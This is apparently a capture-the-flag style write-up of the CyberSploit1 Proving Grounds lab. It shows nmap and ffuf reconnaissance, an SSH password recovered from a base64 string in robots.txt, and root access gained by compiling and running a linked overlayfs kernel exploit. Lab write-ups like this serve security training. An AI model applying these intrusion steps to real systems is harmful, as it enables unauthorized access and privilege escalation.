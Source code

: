 ## CyberSploit1 Proving Grounds
## Level: Easy
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 192.168.245.92 -T4  -v -p-```

```
# Nmap 7.93 scan initiated Sun Jun 25 07:25:11 2023 as: nmap -A -T4 -v -p- -oN cybersploit1 192.168.245.92
Increasing send delay for 192.168.245.92 from 0 to 5 due to 749 out of 1872 dropped probes since last increase.
Increasing send delay for 192.168.245.92 from 5 to 10 due to 11 out of 24 dropped probes since last increase.
Warning: 192.168.245.92 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.245.92
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 011bc8fe18712860846a9f303511663d (DSA)
|   2048 d95314a37f9951403f49efef7f8b35de (RSA)
|_  256 ef435bd0c0ebee3e76615c6dce15fe7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=6/25%OT=22%CT=1%CU=42183%PV=Y%DS=4%DC=T%G=Y%TM=6497E24
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%II=I%TS=8)OPS(O1=M
OS:54EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11NW7%
OS:O6=M54EST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%
OS:DF=Y%T=40%W=7210%O=M54ENNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
OS:T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=78
OS:ED%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.013 days (since Sun Jun 25 07:25:29 2023)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   261.41 ms 192.168.45.1
2   261.40 ms 192.168.45.254
3   261.39 ms 192.168.251.1
4   261.40 ms 192.168.245.92

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 25 07:44:24 2023 -- 1 IP address (1 host up) scanned in 1153.06 seconds
```
From our scan we have 2 open ports, port 22 which runs ssh and port 80 which runs http. Enumeration today will be focused on port 80.



# Enumeration

Navigating to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d67ab198-c0fd-40d9-bd49-075c9b46036d)

Well, we were told to try something more😂. 

Checking the source page;

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/15ca60b9-b7a8-433a-bda3-41b87be75a45)

Cool,we found a username ```itsskv```

There's no login page to test this username against, but since we have port 22 (which runs ssh) open, our best guess will be to test the username for the ssh server. But we haven't found a password yet. Well, lets keep looking

Firing up ffuf

command:```ffuf -u "http://192.168.245.92/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/cybersploit]
└─$ ffuf -u "http://192.168.245.92/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.245.92/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

cgi-bin/                [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 227ms]
hacker                  [Status: 200, Size: 3757743, Words: 22955, Lines: 21776, Duration: 224ms]
index                   [Status: 200, Size: 2333, Words: 318, Lines: 51, Duration: 217ms]
index.html              [Status: 200, Size: 2333, Words: 318, Lines: 51, Duration: 221ms]
robots.txt              [Status: 200, Size: 53, Words: 1, Lines: 2, Duration: 163ms]
robots                  [Status: 200, Size: 53, Words: 1, Lines: 2, Duration: 167ms]
:: Progress: [32298/32298] :: Job [1/1] :: 170 req/sec :: Duration: [0:03:00] :: Errors: 0 ::
```
We found some interesting directories, navigating through the directories one by one

<h4>/cgi-bin/</h4>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/db3185a6-861b-495d-b193-c06d83d75a70)

oops, we don't have permission to view the webpage.

<h4>/hacker</h4>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/169e8dc9-792f-4500-a9fb-0f920aa80d0f)

This is more like the backgrounf gif, there's nothing else there.

<h4>/robots.txt</h4>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/02deb6ed-eba0-49e3-b7b3-d1896f0f9de2)

Interesting, we found a base64 encoded text.

<h4>/robots</h4>

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/42b3dab0-8ce9-4334-8fdd-cdc5953f0fe8)

This contains the same base64 encoded text we found in the ```/robots.txt``` directory.

Decoding the encoded text

command:```echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/cybersploit]
└─$ echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d
cybersploit{youtube.com/c/cybersploit}
```
Well. that looks like a flag. 

Let me give you a little shocker😂, that decoded text that looks like a flag is the password to the ssh server😆.

username:```itsskv```      password:```cybersploit{youtube.com/c/cybersploit}```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/30852181-450f-4a9b-a0bb-d430400c5091)

cool, we are logged in. Lets go ahead and escalate our privileges




# Privilege Escalation

Using the command

command:```cat /etc/issue```

We find out that there is an outdated kernel version

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/67046468-83b1-427b-87f0-0371606561dd)

The Linux Kernel is vulnerable to ```overlayfs```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9db41fce-07da-4995-8c7a-c6f7b058d3ff)

You can get the exploit [here](https://www.exploit-db.com/exploits/37292)

Sending the exploit over to the target machine

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2822f966-c492-4b34-8822-73f5dba6e496)

Now, lets compile

command:```gcc abeg.c -o abeg```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/09a9ee98-3bbc-4d1c-89b0-0eb4c33ed5c8)

Now, lets execute the file

command:```./abeg```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1c80352c-0acb-46e6-abfd-1f76f04a379a)

cool, we got a shell as root😎



That will be all for today
<br> <br>
[Back To Home](../../index.md)










